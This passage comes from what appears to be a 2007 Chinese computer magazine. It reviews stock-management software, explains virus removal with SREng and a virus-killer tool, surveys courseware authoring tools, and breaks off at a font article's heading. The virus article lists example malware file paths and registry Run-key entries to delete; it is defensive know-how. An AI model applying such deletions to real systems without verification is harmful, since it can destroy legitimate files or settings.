软件提供了方便的数据库备份及恢复功能，防止操作失误或其他意外所造成的数据丢失。当天股票交易完毕后，需要将数据进行备份管理。在第二个股票交易日开始时，软件会自动下载最新的数据库重新核算你的买卖平衡点。操作时，只需点击主界面上的菜单栏“工具” → “数据库备份”按钮，即可快速地将数据存储起来，既安全又方便。使用时，最好把自己每天所有的买卖数据都录入软件中，既方便实时查询，又可以显示详细的盈亏数据，方便统一规划和管理。

总的来看，软件使用简便，计算功能强大，而且具有很高的数据安全性，是一款值得推荐的辅助管理工具。

##### 2. 股金管家V3.61

- 推荐指数：★★★★★
- 软件类型：免费
- 软件下载地址：http://www.skycn.com/soft/2042.html

“股金管家”也是一款计算功能非常强大的股票管理软件，软件完全免费，无需注册即可使用。通过它，用户可以实时地精确计算股票收益情况，了解最合适的买卖价格点。软件的主要功能按钮全部集成在主界面中，使用者操作起来十分方便。

### 第1步：开户并存入资金。

首先登录软件，需要按照提示注册，并设定登录密码。登录到界面后，可单击界面上的“存入资金”按钮。可输入用户假定的投资金额，也可以将你真实股票市场中的投入资金输入其中，以模拟真实的股票买卖。如图7所示。



### 第2步：读取行情数据。

软件最大的特点是，可读取几乎所有主流网上股票交易软件的实时数据。用户可以在行情数据读取界面中直接找到这些数据文件的路径，然后导入到系统中，既节省了时间，也提高了数据的准确性。

### 第3步：计算买卖资金。

导入数据后，新的数据会显示在主界面的“持股列表”中。这里可以查看到股票代码、买入均价、数量、持平卖价、现价、账面盈亏和百分比参数。如果这里没有设置将股票卖出，软件是不会显示盈亏百分比的。可以通过点击界面上的“卖出股票”、设置具体的数值。然后点击盈亏记录即可查询到详细的信息。从而使得股民可以随时查知自己的股票到底是亏了还是赚了。

### 第4步：股价警报功能

“股金管家”可以实时地监控你所购买的股票。使用者可以在“警报设置”界面中自定义涨幅、跌幅的百分比。当股票指数涨幅或跌幅超过该设定的百分比时，软件会发出声音警报，并自动弹出提示框提示你应该立即关注该股票的动态。

最后，需要指出的是，股票分析软件只是一种投资工具，不能保证用户绝对赚钱，也不会无限增值。使用这些软件，是为了更好地为投资服务，帮助用户进行决策。实际使用过程中，应当根据实际需要，选择一款真正适合自己的软件，在变幻无常的股票市场中把握住方向，做到可进可退、游刃有余。

### 2007年热点技术与应用

###### （3）钱龙证券投资分析软件 V2007

软件下载地址：http://www.qianlong.com.cn 这是上海乾隆高科推出的基于因特网的实时证券分析软件之一，特别针对钱龙传统用户的使用习惯和功能需求设计，行情刷新实时迅捷，界面操作简单明了，安装程序小、下载和运行都非常流畅。不过，使用时需要注册收费。

###### （4）傲群选股专家

软件下载地址：http://www.aoqun.com.cn/ 傲群选股专家是北京傲群科技发展有限公司开发的一套证券盘后分析软件。它结合箱体理论和其他多种技术分析理论，在国内率先提出“按股价走势对股票进行分类”的概念，结合其它多种分析理论，给用户提供了强大的形态选股方式和独特的选股思路。“股票箱理论”是以整个股票箱的所有数据作为研究对象，这使形态选股成为可能，而不仅仅局限于技术选股，同时决策的信息量更大，选股成功的概率更高。它侧重于选股，使用非常简单，系统自身具有16种默认的选股方案，点击菜单中的“形态选股”或按钮，查看选股结果就可以了。用户还可以修改选股的方案和自定义选股方案。尤其值得指出的是，软件中依据“股票箱理论”中的“横有多长，竖有多高”思想设计的“正在突破的股票”和“面临突破的股票”的方案对捕捉黑马尤为有效。软件的主要缺陷在于更新比较慢。

总的来看，上述软件中，大智慧与同花顺表现明显出色，不仅提供免费注册使用，而且能够提供个性化的操作功能，尤其适合刚入股市的用户使用。如果资金宽裕，用户也可以选择一些收费的行情软件，以获得更加专业化的服务。

### 消灭病毒 我有三招

◆文/啄木鸟

现在的病毒越来越猖狂，感染文件越来越多，病毒为了能够生存及传播，大都把各种杀毒软件当成了试验品，最明显的例子莫过于采用“映像劫持”的病毒，一夜之间，让所有的杀毒软件及防毒工具纷纷“挂掉”。看来，消灭病毒的关键还得靠自己呀！今天，我给大家推荐一款杀毒套装——System Repair Engineer+SREng（日志分析助手+通用病毒杀灭机），利用它，只需三步我们就可以扫除一切病魔！

### 1.扫描

我们的电脑到底有没有病毒呢？只要电脑上了网，相信多多少少会有一些，还是让我们先给自己的电脑做一次彻底的扫描吧！

双击运行“SREngPS”，然后切换到“智能扫描”选项，再单击“扫描”按钮，即可开始扫描。扫描完毕后，会弹出一个“详细报告”的窗口，单击窗口中的“保存报告”按钮，将日志保存。

### 2.分析

在杀毒的过程中，这一步是最重要的。要对系统是否有病毒进行分析，首先我们对病毒的“生活习性”要有一定的了解。其实，无论是什么样的病毒，一般都有两个模块，一个是模块让自己能够很容易被传播，另一个模块是发挥病毒的破坏作用，如盗取各种账号和密码以及损坏正常的文件等。而对于查杀病毒来说，了解其传播方式是非常重要的，而几乎所有的病毒都与注册表有关系，因此，我们在日志分析的过程中，重点是查看注册表。

运行“SREngLog”，在“SREngLog”窗口中切换到“日志粘贴区”选项卡，然后单击“文件导入”按钮，找到我们刚才保存的日志，将其导入。单击“读取分析”按钮，SREng日志分析助手就会自动将日志中的内容分类显示到各页，你可以方便地逐项进行研究分析。在做分析时，建议大家按照“注册表启动项-服务-驱动-浏览器加载项-进程-其他”的顺序来分析。

在分析时，可以在某个条目上单击鼠标右键，选择“删除文件并取消自启动”选项，删除疑似病毒文件及其启动选项。如果你不能确定某个文件是否为病毒，还可以在可疑条目上单击鼠标右键，在菜单中选择“百度搜索文件”或“Google搜索文件”，这时助手会自动打开IE，调用百度和Google来搜索你选定的文件名或进程名。个人推荐用Google，因为不少进程在英文网站上有较详细的说明，而百度上查不到。

提示：有时单击鼠标右键时，菜单中的“百度”和“Google”项是灰色不可选状态，这时你只要在条目上先单击鼠标左键，使其变成可编辑状态，然后手工选择复制文件名，再到网上搜索。

经过这样的分析过程，相信你对系统中哪些是病毒文件就很清楚了，再将所有病毒文件或者流氓软件所在的路径复制到一个记事本中，最后将所有与病毒和木马有关的注册表内容复制到另一个记事本中。

### 3.查杀

先进入“通用病毒杀灭机”所在的文件夹，然后运行“VirusKillBox 1.1”。如果想用“通用病毒杀灭机”删除病毒文件，必须先修改一个配置文件——“修复指令范例.DAT”。在“通用病毒杀灭机”所在的文件夹下找到“修复指令范例.DAT”，将其扩展名修改为TXT，用记事本打开。

在“修复指定范例”这个文件中，我们只需要在[file]…[/file]字段和[reg]…[/reg]字段之间添加一些内容就可以了，前者的字段我们可以添加要删除的病毒文件，而后者的字段我们可以添加要删除的注册表选项。

将上面我们保存病毒文件或者流氓软件所在的路径添加到[file]…[/file]字段之间，比如我们可以添加以下内容：
c:\autorun.inf
c:\docume~1\admini~1\locals~1\temp\nc0nime.exe

再将上面我们保存与病毒文件有关的注册表内容添加到[reg]…[/reg]字段之间，比如我们可以添加以下内容：
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
"WSVBRS"=-
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
"cmdbs"=-

最后，我们再将该配置文件的扩展名修改为DAT，然后在“病毒杀灭机”工作界面中单击“文件导入”按钮，找到刚才我们修改的配置文件，最后单击“执行指令”按钮；重启后，无论是病毒文件还是与其有关的注册表选项，都会被自动删除。

### 2007精彩课件制作技术大搜捕

◆文/风之扬

随着计算机技术的迅速发展，多媒体课件在现代教育、单位培训、产品演示等场合应用日益普遍。2007年以来，以Web2.0为标志的网络技术应用日益普遍，播客成为了其中的一道独特风景，许多老师将自己制作的优秀课件放到播客网站上，实现全方位24小时的辅导；咨询、EMBA教育、软件培训、计算机安全技能培训等领域，也纷纷借助播客开展网络业务。在优秀的课件设计软件帮助下，许多功能强大的课件脱颖而出，计算机辅助教学逐渐受到重视，新型课件制作技术正给人们带来全新的视、听觉享受。本专题以当前流行的多媒体课件制作工具最新版本为平台，以学习者为中心，以学科教学为基础，以课件实例为主线，精心选取和制作了多个课件实例，通过对制作流程和关键技术的讲解，使读者可以轻松制作出实用、专业的多媒体课件。

#### 一、多媒体课件：面向教学的多媒体技术更新潮

##### 1. 电子课件与播客联袂出击

2007年以来，播客网站开始大展拳脚，从刘翔夺冠到五大足球联赛直播，从视频新闻到电子教案，播客给人们留下了深刻的印象。而网络课件则是基于Browser/Server（浏览器/服务器）模式开发、能在Internet（互联网）或Intranet（局域网）上发布的课件，其本质是一种Web应用程序。通过播客，网络课件的传播范围也越来越广泛。首先，体积越小的文件越容易受到制作者的青睐。在网络课件中，许多图像采用压缩过的文件格式，如动画大多采用FLASH等格式，文件体积非常小。其次，基于网络的课件具有较强的开放性，只要身边有一台校园网的终端机，就可以利用网络传输协议浏览到所要学习课程的多媒体课件，而且在运用网络课件进行教学时，可以充分地利用网络资源，对网上与课程内容相关信息采用超链接形式直接调用或者进行信息检索，实现资源共享。再次，网络课件的传播范围已经不再局限于教学或演示中的一堂课，而是能利用校园网等教育资源，以滚雪球的发展方式不断扩充，从网络课件到网络课程，供广大用户使用。可以预见，随着网络的发展和普及，多媒体课件的使用范围也不再局限于一个学校或一个班级，而是面向不同地域、不同教学者，更多更优秀的教育资源也将逐步传播开来。

##### 2. 多媒体、流媒体等交互技术的应用

在学习课件的过程中，用户的体验感越强，就越容易学到最新的知识，多媒体技术正是在这种背景下发展起来的。通过多媒体、流媒体技术的应用，可以使课件的画面更清晰、播放更流畅、色彩搭配更有美感。而在2007年网络应用发展日趋普及的大趋势下，对多媒体、流媒体技术的应用也提出了更高的要求。从多媒体开发工具“所见即所得”的应用中，这方面的发展趋势更加显而易见。如今，多媒体课件的应用越来越普遍。在教学的过程中，学生可以通过网络课件的交互性，实现人—机对话，通过BBS论坛或电子邮件的链接实现师—生对话、生—生对话等双向交互活动。

此外，作为一种新的媒体传送方式，流媒体技术也被大量应用在电子课件中。在流媒体传输的过程中，类似A/V及3D的多媒体文件经过特殊的压缩方式分成一个个压缩包，由视频服务器向用户计算机连续、实时传送。用户不必像采用下载方式那样等到整个文件全部下载完毕，而是只需经过几秒或几十秒的启动延时，就可以在用户的计算机上利用解压设备对压缩的A/V、3D等多媒体文件进行解压后播放和观看。这种对多媒体文件边下载边播放的流式传输方式不仅使启动延时大幅度地缩短，而且对系统缓存容量的需求也大大降低。目前，随着课件制作要求的日益提高，流媒体技术的应用也越来越广泛。

##### 3. 课件制作软件新功能层出不穷

“一千个读者就有一千个哈姆雷特”，同样，一千个教师就有一千种教学方式。2007年以来，功能强大、适合各种需求的课件制作软件发展很迅速。如Adobe公司推出的CS3系列软件，在课件制作功能上有很大提高，在开发环境上也更加人性化。另外，多媒体课件的最终目的是用于辅助教学，提高教学效果，这就要求课件制作软件的操作应简单易用，课件的设计应该紧扣教学大纲。因此，目前也出现了许多功能实用、操作简单的小型课件制作软件。这些不同层次的软件，满足了各种不同用户的需求。在使用过程中，用户的选择余地很大，也就满足了易用、高效、开放、经济等需求。

##### 4. 智能化、虚拟化技术引领潮流

在国外课件制作网站上浏览时，很容易发现，智能化、虚拟化技术的应用也开始火热起来。多媒体教学软件和智能辅助教学系统在功能上存在有很大的互补性，如能将这两者结合起来，便可以扬长避短，从而推出新一代高性能的智能辅助教学系统。要使多媒体教学软件具有智能化，主要涉及学生模型的建造和人工智能领域的知识表示与知识推理，后者要求探索出一种适合于多媒体环境的知识表示方法，以及相应的推理机制。除此以外，还可设法使多媒体知识库中的导航功能智能化。智能化导航不仅具有一般的导航功能，而且还可根据学生当前的知识水平，及时向学生建议下一步最合适的路径；当学生遇到困难时，能对学生进行帮助等。

而形成的一种交互人工世界，在这种人工交互世界里可以创造一种身临其境的完全真实的感觉。一般情况下，要进入虚拟现实的环境需要戴上一个特殊的头盔和一副数据手套。VR技术在教学中的应用有非常令人鼓舞的前景，如美国休斯顿大学和NASA（美国国家航空和宇航局）约翰逊空间中心的人员建造了“虚拟物理实验室”的系统，这种系统可以让学生进行万有引力定律等各种虚拟实验，从而达到对物理概念和物理定律的深刻理解。随着多媒体技术和仿真技术的发展，实现VR的理论和方法也不断发展。如“QTVR（快速虚拟）”的出现，它不是利用特殊的头盔和数据手套来产生幻觉，而是使用360度全景摄影技术所拍摄的高质量图像来生成逼真的虚拟情景。美国学习城市设计与规划的学生利用这一套系统可以设计一座虚拟城市，当学生改变城市场景的视图时，能产生浏览观光的真实幻觉。

新技术的发展，给用户带来了全新的感受，但是，也对制作者提出了更高的要求。通过对2007年课件制作技术的把握，制作者可以更加有的放矢地进行技术研究和探索。下面，将介绍几种方案的组合，以满足各种不同类型制作者的需要。

#### 三、精彩组合篇：课件制作技术方案分析

实际制作过程中，制作者的要求可能各不相同。普通用户由于计算机操作水平和时间限制，一般采用诸如PowerPoint、Frontpage、Flash等制作平台，能用够用即可；而对于专业演示者、网络培训者以及计算机教师等用户来说，就应掌握一些功能较强的制作工具。2007年以来，随着电子杂志制作技术的成熟，一些新方法、新技巧也开始融入到课件制作技术中。

##### 1. 大众组合：PowerPoint搭配Flash CS3

- 推荐指数：★★★★★
- 适合对象：初、中级

从实际教学效果来看，使用Flash CS3搭配PowerPoint具有很好的互补作用。因此，我们称之为“梦幻组合”。

在课件制作工具中，由于操作简便而且使用灵活，PowerPoint应该是应用最广泛的了。使用PowerPoint制作课件最大的优点是操作简便，系统提供了优秀的模板和各种体贴的提示，适合初级用户制作一些“讲义式”、“幻灯片式”的课件。对于熟悉微软产品的用户来说，可以很快掌握这个软件。放映幻灯片时，按一下F5，或者单击“幻灯片放映”菜单下的“观看放映”就行了。在放映过程中想换到上一张、下一张很简单，可以用Page Down、Page Up键来控制，也可以用方向箭头控制。

2007年，Adobe Flash CS3横空出世。这是Adobe公司收购Macromedia公司后，在Macromedia Flash基础上推出的一款动画软件。值得一提的是，“闪客”趣味灵动的概念在众多师生中也很普及，采用了全新Creative Suite 3界面的Flash CS3，可以轻松制作动态交互式媒体专页或开发与主题相关的多媒体课件。通过Flash CS3，可以轻松实现多种动画特效，尤其是在CAI课件设计中，通过使用设计合理的动画，不仅有助于学科知识的表达和传播，使学习者加深对所学知识的理解，提高学习兴趣和教学效率，同时也能为课件增加生动的艺术效果，这对于以抽象教学内容为主的课程更具有特殊的应用意义。随着校园网络建设的不断发展，Flash也逐渐成为校园制作课件的一个得力平台，Flash也正在逐渐形成一种网络文化氛围。软件界面如图1所示。

在设计课件的过程中，制作者可以充分利用Flash CS3的图形绘制功能，通过精灵动画的方式，在Flash CS3中随意创建按钮、多级弹出式菜单、复选框，同时具备形式多变的交互性。另外，用Flash CS3生成的互动式的动画课件体积小，传输速度很快，尤其Flash CS3动画课件是边传递边演示，几乎感觉不到停顿现象。对于流动性比较大的授课老师来说，Flash CS3可以将制作的影片生成独立的.exe可执行文件，方便老师进行演示。

下面，我们在两者的结合上，通过导入、连接、配合演示、复制等方式来演示一个学习多媒体电脑的实例作品。第1步：利用PowerPoint制作一个课件。首先打开PowerPoint（以PowerPoint 2003为例），制作一个关于多媒体电脑的课件。通过图片、文字的配合，可以将多媒体电脑的组成、结构都讲解得十分清楚。在操作的过程中，老师可以通过翻页、连接等形式，将电脑生动地展现给学生。如图2所示。

第2步：制作关于电脑部件的Flash文件。讲解多媒体电脑的内部结构时，使用PowerPoint就显得捉襟见肘了。如果能够用多媒体动画的方式来展示，就可以达到事半功倍的效果。这时，针对特定的部件，可以用Flash MX设计专门的动画配合演示。现在，假设制作了关于CPU、硬盘、光驱等部件的Flash文件。

第3步：考虑软件的组合方法，即如何在PowerPoint中插入Flash动画。方法有两种：一种是通过控件管理器，将Flash插入到PowerPoint中；另一种是通过插入对象的方法，插入一个Flash动画。使用第一种方法插入的Flash动画，直接放置在幻灯片工作区中，可以调整它的大小，并且可以利用按钮或者其他控件，控制它的播放。下面，我们介绍利用控件插入Flash动画。

第4步：启动PowerPoint，打开课件，找到需要插入Flash动画的幻灯片，执行“视图”→“工具栏”→“控件工具箱”命令，打开“控件工具箱”，单击“其他控件”按钮，在列表中，选择“Shockwave Flash Object”，这时，鼠标变成十字形状，在幻灯片设计区中自左上向右下拖动鼠标，画出一个矩形。

第5步：设置Flash动画的属性。在“控件工具箱”工具栏中，选择“属性”按钮，弹出“属性”面板，设置“Width”（宽度）和“Height”（高度）的值，在“Movie”（电影）中输入Flash影片的路径和文件名。选择“属性”面板中的“自定义”按钮，在弹出的“属性页”对话框中，选择“播放”及“嵌入影片”复选框，设置完后，单击“确定”。

> Flash CS3采用了全新的ActionScript 3.0语言，该语言改进了性能、增强了灵活性，更加直观和结构化的开发。在设计需要交互的课件时，可以采用该语言脚本设计互动环节，增加教学的趣味性。如果需要导出视频，可以使用高级QuickTime导出器，将在SWF文件中发布的内容渲染为QuickTime视频。

第6步：演示。在PowerPoint中，讲解到这一页时，通过翻页即可实现多媒体的演示功能。

用类似的方法介绍硬盘、光驱等部件时，就可以让学生体会到身临其境的感觉了。这样的方法也适合其他课程教学，如语文、数学、地理、历史等。鉴于此方法操作简便，而且熟练掌握所需要的时间也很短，因此，可以说是教学中的“大众组合”。

##### 2. 梦幻组合：电子杂志软件搭配Flash CS3

- 推荐指数：★★★★★
- 适合对象：初、中级

经过四年多时间的发展，电子杂志制作技术日趋成熟，ZineMaker等软件搭配Flash CS3也开始被大量制作者所应用。在2007年上半年《电脑爱好者合订本》中，曾有专门的制作专题介绍。在形式上，这些电子杂志保留了纸质杂志的封面、目录、封底，甚至做出了中折痕以及翻页效果。更让人惊叹的是，它们融入了声音、图像、动画、视频等手段，令杂志的可视性、交互性达到前所未有的高度。目前，在许多学校的汇报、课堂教学、网络培训等场合中，电子杂志课件正在被大量地采用。目前，比较优秀的电子杂志制作软件包括：ZineMaker、PocoMaker、Zcom DIY杂志制作大师、iebook、XPLUS杂志制作工具、VIKA等。通过功能上的比较，本文重点介绍ZineMaker。

软件下载地址：http://www.onlinedown.net/soft/46501.htm

软件安装过程十分简单，其最大的特点是图形界面上手容易，能把SWF、图片、视频等部件像搭积木一样组合起来，有利于团队的分工合作，后期修改起来也十分方便。软件自带多套精美的Flash模版、特效模版以及定制模版，全面支持最新的Macromedia Flash 8文件格式，动态效果十分丰富。而且，软件采用了128位高强度加密技术，能严格保护内页Flash文件不被恶意破解。如图3所示。

ZineMaker制作的大致步骤如下：

- （1）课程内容设计
在制作网络课件之前，首先必须明确教学目的，进行教学对象分析，确定该课件的设计指导思想、功能等，做好充分的调研工作；然后认真分析学科特点，根据教学设计原则、教学需求和现有的技术条件来选定课件内容，进行选题论证工作。
- （2）新建杂志课件
根据需要制作的课件主题，选择封面模版，然后添加页面模版，当然也可以是图片或Flash；有些场合，通过自己独立设计的Flash页面可以达到意想不到的效果，通过Flash的补充能够增加杂志的趣味。添加时，点击“项目”菜单下的“添加 Flash 页面”，选择并打开自己制成杂志页面的Flash文件即可。
- （3）更改模版页面元件
可以使用多个模版进行组合。在实际规划中，网络课件的系统结构设计定义了各部分教学内容的相互关系及其发生联系的方式，反映了整个网络课件的框架结构和基本风格。设计时，可以先将教学内容划分出不同类型的知识点，每个知识点形成对应的网络功能模块，然后进行确定系统整体结构、界面设计、导航策略及交互设计等工作。
- （4）生成预览并保存杂志
需要注意的是，ZineMaker制作杂志过程中会生成2个文件，即.mpf文件和.exe文件。其中，.mpf文件中要添加的所有内容都是通过绝对路径实现的，如果在制作过程中修改了素材位置，将会出现无法显示的问题，必须重新更改路径。在大型合作制作过程中，最好将ZineMaker统一安装在同一路径下，素材文件的路径也尽量统一。例如，可以把ZineMaker安装在C:\Program File下（默认），每一期的素材文件建立在某个盘下。杂志制作完成后，可以发布到网上，做成在线版本，还可以做成下载版本观看。

> 使用ZineMaker可以制作出十分精美的杂志，使用以下技巧则可以制作出更加精美的杂志：
- （1）使用模版和特效达到事半功倍的效果。ZineMaker的用户群十分庞大，不少电子杂志爱好者也纷纷制作了许多风格迥异的精美模版和特效。制作课件之前，用户可以通过免费站点下载相关模版。下载后，找到安装目录下的template文件夹。在template文件夹中找到对应的分类文件夹，把TPF模板文件放进去。
- （2）使用Flash制作个性化信息文件。在安装路径下的designing文件夹里，提供了backinfo（制作人员信息）、button（按钮）、email（推荐E-mail）等源文件，通过修改这些文件，可以加上制作者自己的信息。然后，通过Flash导出SWF文件后就可以加载到杂志中的。另外，在做Flash时，最好把帧速度设置为30帧/秒，这样，插入杂志后就会和电子杂志的帧速度一样了。

用户还可以使用PocoMaker（http://maker.poco.cn/）等杂志制作软件，配合Flash CS3进行动感十足的电子课件设计。新版的PocoMaker共有四个属性面板，分别对应图片属性、文字属性、Flash属性以及声音属性。软件提供了对图层的多选支持，撤销操作和恢复操作，添加多页功能，增加目录模板和循环播放功能，和Photoshop有点类似。此外，用户在运行相册时，点击相册顶端的“自动”播放的同时勾选“循环”复选框，还可以实现循环播放相册功能。

##### 3. 专业组合：PowerPoint、Authorware搭配Director

- 推荐指数：★★★★
- 适合对象：中、高级

这个是公认的专业组合方案，虽然单独使用一个软件就可以达到很好的效果，但Authorware侧重系统集成，对程序的导航、交互控制功能无人出其右；Director侧重多媒体制作，特别是动画制作堪称第一。因此，实际使用过程中，用Director制作动画及特技效果，由Authorware来进行格式编排，就能体现课件制作的最高水平。资金充裕的学校拥有了Director就能满足高技术含量课件开发的需要，但由于其对使用者要求较高，所以配合一般教师使用PowerPoint是个不错的建议。加上Director强大的二维动画制作功能，能轻松实现跳转控制、交互功能，完全可以称之为“多媒体创作工具集大成者”。

首先，Authorware是美国Macromedia公司产品，适合非计算机专业的学科教师开发多媒体教学课件。使用Authorware制作课件的大致步骤是，用系统提供的图标先建立应用程序的流程图，然后通过选中图标，打开相应的对话框及系统提供的图形、文字、动画等编辑器，逐个编辑图标，添加教学内容。整个制作过程以流程图为基本依据，非常直观，且具有较强的整体感，制作者通过流程图可以直接掌握和控制系统的整体结构。如图4所示。

从教学课件制作的角度来看，Authorware还具有以下明显的优点：

- （1）具有大量适合教学的素材库
在教学课件制作中，有些素材经常用到，如底纹、壁纸、效果声等。Authorware支持多种格式的文件，便于方便地采集素材。制作者可以收集素材并保存起来，不断丰富素材库的内容。
- （2）可以很方便地利用多种载体
视频影像是多媒体课件的重要组成部分，可选择VCD中的有关片断通过视频编辑软件转化为AVI文件。比如，合理利用现有光盘中的内容，可以极大地丰富课件制作的素材，还可以降低开发费用。
- （3）集成功能强大
Authorware是一套优秀的多媒体编辑工具，它强大的功能为使用者提供了极大方便。在课件集成时，首先应该根据制作要求规划好整个课件流程，根据流程规划，用鼠标把工具栏中的图标拖到流程图的相应位置上，再对图标内容进行编辑，这样在结构上将更加直观。
- （4）丰富的开发方式
Authorware提供多种位移动画和交互方式，有助于提高开发效率。在课件开发过程中，用鼠标右键单击相关的显示、声音、影像等图标就能快速查看到该图标的内容，听到该图标的声音。

而Director是Macromedia公司推出一代交互式多媒体应用软件开发工具，具有强大的面向对象开发能力，用户可以将图片、声音、三维动画、视频电影、数据库访问、Internet链接等技术集成在一个课件中，从而制作出令人震撼的多媒体交互程序。据Macromedia统计，已经有超过35万的用户在使用Director。通过Macromedia Shockwave Player，Director还可以在CD/DVD-ROM、信息站和WEB上设计多样化、交互式的内容及应用程序。这是一款融合了众多新功能的创作工具，可满足当今多媒体开发人员不断发展的需求。如图5所示。

Director的强大功能还表现在能轻松地融合众多的媒体类型，从而达到编辑不同课件的目的。包括主要视频、音频、位图和矢量格式，运用Director MX中强大的Lingo编程语言和行为，可以轻松地控制这些媒体类型。另外，我们还可以用Director包装PowerPoint文档，实现PowerPoint和Director的无缝衔接，这对当前的教学实践有很积极的意义。
使用此方案制作课件必将成为目前课件制作技术的一个重要发展方向。使用此方案时，建议对一些普及性的、重要的课程内容进行集中的课件开发，同时，也要开展多层次的普通教师使用能力的培训。

##### 4. 优化组合：蒙泰瑶光、速龙、几何画板

- 推荐指数：★★★★
- 适合对象：初、中、高级别

国产多媒体创作工具比较多，水平也参差不齐，比较知名的有方正奥思、蒙泰、洪图、银河、摩天等。这几种国货的优点是贴近中国用户习惯，操作简便，各有一些令人称道的功能，价格相对较低。不足之处在于兼容度低，支持的媒体格式少，生成的产品稳定性有待提高。实际应用中，如果需要较复杂的跳转和一些特效，就可以让计算机教师利用蒙泰瑶光多媒体编著系统、速龙、几何画板等软件来完成。

- （1）蒙泰瑶光多媒体编著系统
软件下载地址：http://www.maintop.com.cn

蒙泰瑶光多媒体编著系统是由武汉蒙泰科技发展有限公司开发的一套多媒体制作工具，用蒙泰瑶光制作的课件就像一本书，课件内容制作在“页”上，就像一页一页的书；课件中不同的浏览方式相当于书的不同检索方式。这种结构比较符合教师的思维方式，比流程图结构、时序结构等其他方式更容易理解和学习，全中文操作界面易于使用操作。如图6所示。

蒙泰瑶光提供了所有汉字的汉语拼音自动注音功能，同时对多音字可手动调整，还可手动更改注音，彻底解决了汉语拼音输入难的问题。另外，简单快捷的公式输入方法，使各类公式的输入不再需要拼拼凑凑。针对上述软件中的不足之处，我们可以利用其丰富的多媒体功能。软件提供了160种媒体现场方式和20多种媒体进出方式可使课件中的各种内容以其意想不到的方式呈现，提高课件观赏性和感染力。它还内置高效视频驱动模块，除能对视频资料进行节选播放和播放控制，还可在视频上进行媒体叠加，减少课件制作时对视频资料编辑处理的时间。

> ◆ 小技巧 ◆
随着新课改理念的不断深入，加之正确按照课件制作原则、熟练使用制作软件，遵循以学生为主体、让学生自主学习的现代教育理论，智能型的人性化的多媒体课件必将成为教师教学、学生自学的最有效的好帮手。在制作过程中，如果能够通过免费软件实现特定的功能，我们可以尽量采用免费或共享软件。当然，有些免费或共享软件具有简单高效的特点，特别是对于非计算机专业的老师很实用。

- （2）速龙易之课件制作系统
软件下载地址：http://www.slsoft.com.cn/或http://www.skycn.com/soft/7865.html
软件类别：共享版

该系统以独到的创意、强大的功能和方便的操作，真正地将制作课件变成一件每位教育工作者都可轻松从事的工作。简单易学，轻松上手，无需编程即可实现强大的交互功能。强大的动画制作能力，轻松定义运动轨迹。

下面是一个制作课件的简单例子。

首先，软件以完整的对象为基础，提供了“搭积木”式的制作方式，仅需简单的鼠标拖拽、点击，即可完成一个漂亮的课件。系统中预制了各种专业的学科对象，基本包括了教学中需要用到的试验器材与图形示例，总数多达200余种，每种对象均具备灵活的可调节性，大大降低了制作过程中的工作强度。上述例子实现的效果如图7所示。

其次，软件还提供了强大的集成动画制作环境，我们不但可以制作出图像渐变、对象位置移动、大小变化这样的简单动画，还可以制作出如对象旋转、加速运动、正弦运动、抛物线运动等较复杂的动画，甚至可以制作出如相对运动这样的动画，以及多个动画共存的复杂动画，而所有这些的制作过程仅需简单的设置和操作即可实现。对于制作出来的教案或课件，可以通过系统提供的播放器使用，还可以输出成HTML文件，所制作的动画可以输出成AVI文件，还可以将制作的文件插入到其他软件中。

- （3）几何画板
软件下载地址：http://www.skycn.com/soft/21423.html
软件类别：共享版

几何画板通过设计和编写应用范例，体现老师的教学思想和教学水平，而不是编者的计算机软件技术水平。由于每个画板都可以被用户按自己的意图修改并保存起来，它特别适合用来进行几何交流、研究和讨论。人们由此把它称之为“动态黑板”。它还是教师布置作业、学生完成作业的理想工具。

例如，几何画板能准确、动态地表达几何问题，也能进行其他学科的动态演示，如物理中的力学、运动学、光学，数学中的认数，地理中的行星运动等等。这样，学生可以从“听”数学转变到“做”数学，即以研究者的方式，参与包括发现、探索在内的获得知识的全过程，具有动态直观、色彩鲜明、变化无穷的特点，能极大地增强学生的学习兴趣。上述例子实现的效果如图8所示。

通过对上述课件制作软件的扫描，不难看出，这些软件的编辑功能十分强大，可以胜任平时大部分的课件开发工作。但是，对制作者的要求也逐渐提高，因此，选择简单易用而高效的课件开发软件，不但能保证课件质量，而且能提高制作效率、缩短时间，减轻课件开发的劳动量。

#### 三、提高篇：精彩课件制作实例流程分析

通过对上述软件和相关技术的讲解，我们对课件制作以及发展趋势有了一个总体的把握。不过，课件的设计与制作不是纯技术的，它要体现对一个教学过程的设计，还需要制作人员良好地分工与协作。因此，在制作课件时，要弄清教学目的、重点难点等和课件的设计制作流程，做好一切准备工作。课件的精心设计对于课件本身的质量和课件的应用效果，提高课件的促学功能具有重要的意义。

##### 1. 分析对象，结合内容特点进行选题

在制作网络课件之前，首先必须明确教学目的，进行教学对象分析，确定该课件的设计指导思想、功能等，做好充分的调研工作；然后认真分析学科特点，根据教学设计原则、教学需求和现有的技术条件来选定课件内容，进行选题论证工作。

##### 2. 确定课件制作的系统结构

网络课件的系统结构设计定义了各部分教学内容的相互关系及其发生联系的方式，反映了整个网络课件的框架结构和基本风格。设计时先将教学内容划分出不同类型的知识点，每个知识点形成对应的网络功能模块，然后进行确定系统整体结构、界面设计、导航策略及交互设计等工作。

- （1）整体结构设计
按照自上而下的设计，形成非线性知识结构。采用引导的方法，提出问题或呈现整体任务，并提供相关的概念和有助于问题解决的相关链接，让学习者尝试解决问题，充分利用各种资源来支持学习，引导学者进行有目的的探索，实现有意义的知识建构，进行研究性学习。
- （2）界面设计
网络课件的界面是实现人机交互的重要手段，在进行界面设计时要做到结构清晰、风格统一、布局合理、简洁明了、色彩搭配协调。连贯、和谐、风格独特的友好使用界面，给人层次分明、赏心悦目的感觉，对学生的学习会产生激励作用。
- （3）导航策略
课件一般以页面形式存在，它的功能之一就是强大的导航性，使查找信息非常方便。比如，你是否设立了导航框架、从页面中派生出那些链接、是否在每一页上都创建菜单和按钮等、是否建立包括站点索引、帮助、查询功能在内的导航帮助……这些就是我们设计网络课件时要考虑的导航策略。在内容丰富、结构庞大的网络课件中，良好的导航十分重要。
- （4）交互设计
网络课件的交互功能可以通过在线测试、实时讨论系统BBS、网上聊天室、E-mail远程辅导等交互单元来实现，交互性是网络课件的生命之所在。学生可在课件提供的强大交互功能下进行自主学习、协作学习，从而实现师一生、生一生、人一机交互的目的。

##### 3. 课件脚本的编写

在确定了网络课件的系统结构后，根据每个页面所要呈现的教学内容，确定其包含的素材种类、各个素材的具体内容及页面的布局方案，写出设计脚本。

### 字体设置与使用技巧

◆文/TMG zcy

